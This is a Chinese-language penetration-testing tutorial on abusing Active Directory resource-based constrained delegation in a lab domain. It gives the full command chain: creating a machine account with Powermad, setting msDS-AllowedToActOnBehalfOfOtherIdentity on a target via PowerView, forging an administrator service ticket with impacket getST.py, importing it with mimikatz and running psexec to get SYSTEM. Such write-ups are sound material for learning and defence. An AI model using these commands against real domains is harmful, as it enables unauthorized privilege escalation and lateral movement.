# 资源约束委派

资源约束委派主要是为了让用户或者资源更加的独立，所以在Windows server 2012中引入了基于资源的约束委派，基于资源的约束委派允许资源配置受信任的帐户委派给他们。基于资源的约束委派将委派的控制权交给拥有被访问资源的管理员。

同时利用基于资源的约束委派的控制权交给拥有被访问资源的管理员，间接导致了域内正常的域用户都有权进行委派操作。

简单来说就是在资源约束委派中，不需要使用域内管理员去设置相关约束委派的属性，而操作权落到了当前登录的机器或者用户手里了。

详细的可以参考下面的文章：

[域渗透之委派攻击](https://xz.aliyun.com/t/11555#toc-16)

这里就借用一下他人的文章中的说法，以防文章再没了。

## 基于资源的约束委派的优势

- 委派的权限授予给了拥有资源的后端，而不再是前端
- 约束性委派不能跨域进行委派，基于资源的约束性委派可以跨域和林
- 不再需要域管理员权限设置委派，只需拥有在计算机对象上编辑msDS-AllowedToActOnBehaffOtherldentity属性权限也就是将计算机加入域的域用户和机器自身拥有权限。

## 约束性委派和基于资源的约束性委派配置的差别

- 传统的约束委派是正向的，通过修改服务A的属性msDS-AlowedToDelegateTo，添加服务B的SPN，设置约束委派对象（服务B)，服务A便可以模拟用户向域控制器请求访问服务B的ST服务票据。
- 而基于资源的约束委派则是相反的，通过修改服务B属性msDS-AllowedToActOnBehalfOfotherldentity，添加服务A的SID，达到让服务A模拟用户访问B资源的目的。
- msDS-AllowedToActOnBehalfOfOtherIdentity属性指向委派账户（也就是我们创建的机器账户或已知机器账户）

## 利用条件

- 具有对主机修改`msDS-AllowedToActOnBehalfOfOtherIdentity`属性的权限(如已经控制的主机是WEB 则具有修改WEB主机的msDS-AllowedToActOnBehalfOfOtherIdentity的权限账户)
- 可以创建机器账户的域用户（或已知机器账户）
- 域控是Windows server 2012及以上
- 存在域内成员用户加入域的操作。

### 什么用户能够修改msDS-AllowedToActOnBehalfOfOtherIdentity属性

- 将主机加入域的用户(账户中有一个`mSDS-CreatorSID`属性，用于标记加入域时使用的用户的SID值，反查就可以知道是谁把机器加入域的了)
- Account Operator组成员
- 该主机的机器账户

### 将机器加入域的域用户

正常机器加入域需要输入域管账号密码，而这里不需要输入域管的账号密码，而是输入域内用户的账号密码，例如：域控的账号密码是：administrator/admin@123，主机A的账号密码是：dbadmin/admin!@#45，而这时候有一个新的主机要加入域，这时候输入的账号密码不能输入域控的账号密码，而是输入主机A的账号密码，这样就形成了资源约束委派，也就相当于如果我们有主机A的权限，那么后面加入的这台主机的权限我们也就间接性获取到了权限了。

同时如果我们拿到了Account Operators组内用户权限的话，则我们可以拿到除域控外所有机器的system权限。（因为Account Operators组内用户可以修改域内任意主机（除了域控）的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性）

# 案例操作

这里的委派不需要任何的设置，默认就可以，也就是设置成不信任此用户作为委派。



## 获取目标信息

这里我就不在CS中操作了，在CS中操作也是一样的，这里我们获取的是WEB机器的权限，而我们要攻击的则是DATA机器的权限。

### 查询SID值

可以看到使用Adfind工具查询，发现存在两台主机的SID值是一样的，那么就存在资源委派的可能，如果SID值不一样那就不存在资源委派的情况。

```
AdFind.exe -h 192.168.3.33 -b "DC=xiaodi,DC=local" -f "objectClass=computer" mS-DS-CreatorSID
##-h 域控的IP地址，-d是域名，-f是固定的。
```



### 查询加入的用户

这里就是查询是谁把这两台主机加入域的，这个用户是谁？

```
sid2user.exe \\192.168.3.33 5 21 1695257952 3088263962 2055235443 1104   ##要主机从5开始是将前面的S-1-去除，同时将中间的-全部替换为空格。
```



通过查询发现，加入的用户是dbadmin，并且是域内普通用户。

## 攻击操作

这里需要使用到工具，这个工具是使用PowerShell来执行。

[powermad](https://github.com/Kevin-Robertson/Powermad)

### 增加机器

其实这里我一直觉得有一个坑，CS是没交互的功能的，那么如何执行交互呢，所以可能还是需要将会话转交给msf来执行。

```
Set-ExecutionPolicy Bypass -Scope Process   ##更改策略
import-module .\Powermad.ps1             ##执行脚本
New-MachineAccount -MachineAccount test1 -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force) ##创建一个用户为test1的，然后密码是123456
```



### 查看增加情况

这里在实际操作中是看不到增加情况的，但是这里是演示所以可以看一下，在域控是是否增加了一个用户。



### 获取SID

这里获取新加入的这太主机的SID值，这里获取到的SID值是：S-1-5-21-1695257952-3088263962-2055235443-1602

```
Set-ExecutionPolicy Bypass -Scope Process  ##如果出现报错，就执行这条命令，再执行下面的命令。
Import-Module .\PowerView.ps1
Get-NetComputer test1 -Properties objectsid
```



### 修改委派属性

这里就是设置委派，修改DATA的属性，仔细看下面的命令，主要要修改的一个是DATA也就是你目标主机的机器名，还有一个就是SID值，这里将SID值修改为刚刚上面我们自己添加的那台主机的SID值。

```
Set-ExecutionPolicy Bypass -Scope Process
import-module .\powerview.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1695257952-3088263962-2055235443-1602)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DATA| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```



### 验证是否修改成功

这里然后将中间的DATA修改成你目标主机的主机名。

```
Get-DomainComputer DATA -Properties msds-allowedtoactonbehalfofotheridentity 
```



### 清除属性值设置(千万别实验，只了解)

这里其实就是将之前的修改的内容给清除了，这个你删除了，就会像我一样，折腾了一个多小时发现，自己搞的问题。

```
Set-DomainObject DATA -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```



## 票据生成

这里就通过票据的生成来验证，不过这里需要提前在本地使用工具生成，使用需要上传木马，设置代理。

### 配置host文件

这里需要提前配置一下host文件，由于使用下面会使用到机器的名，以防解析到外部的地址，所以需要配置相应的host指向，由于是利用本地的工具去生成的，所以修改host文件需要修改本地的host文件。

这里放在本地的原因是需要使用python环境，而目标如果没有python文件，你把工具上传后也无法执行，同时该工具又有很多小工具，都未经免杀，可能上传就会被干掉。

```
192.168.3.11 web.xiaodi.org
192.168.3.22 data.xiaodi.org
192.168.3.33 dc.xiaodi.org
192.168.3.33 xiaodi.org
```



### 连接目标获取票据

这里需要使用到impacket工具，并且使用到python3.10及以上版本，可能低版本的存在一些小问题。

[impacket工具](https://github.com/fortra/impacket)

```
proxychains python getST.py -dc-ip 192.168.3.33 xiaodi.local/test1\$:123456 -spn cifs/data.xiaodi.local -impersonate administrator
```



### 导入票据到内存

这里将刚刚生成的票据导入到内存中，由于票据是本地生成的，那么就需要先将票据上传到所控主机上后在进行导入。

```
mimikatz kerberos::ptc administrator.ccache
```



### 利用票据连接

```
dir \\data.xiaodi.local\c$    ##默认连接，权限低。
python psexec.py -k xiaodi.local/administrator@data.xiaodi.local -no-pass   ##可提升为system权限。
```



# 总结

其实总体来说，约束委派类，不是太经常遇到，同时在操作过程中，还有很多是需要交互的，或者一些特殊的操作，其中有一点不对则无法利用成功，不像其他漏洞，能不能利用基本上测试一下就能确定了，而这个有可能测试完也无法成功，上面案例中能够测试成功，均是在理想化环境中测试。
